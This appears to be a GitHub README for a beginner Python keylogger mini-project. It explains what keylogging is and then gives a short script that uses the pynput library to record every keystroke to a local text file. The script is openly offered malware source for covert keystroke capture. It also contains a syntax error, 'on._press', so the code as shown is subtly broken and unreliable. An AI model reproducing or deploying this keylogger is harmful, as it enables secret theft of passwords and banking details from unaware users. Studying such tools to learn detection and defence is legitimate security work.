 # Keylogger-Python

## Background and Significance 
Keylogging is the method of storing key-strokes on a device, particularly without the user knowing. Having a program such as this running on your device will result in the unaware surrendering of confidential data to malicious hackers, including login credentials and banking details.

## Objective
This mini-project aims to create a successful key-logging script, that when executed, will capture keystrokes made by the user in any environment on the device.

## Skills Learned

## Tools/Languages Used
- VSCode
- Python

## Steps & Code
<code>
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on._press=keyPressed) 
    listener.start()
    input()
</code>
## Tips

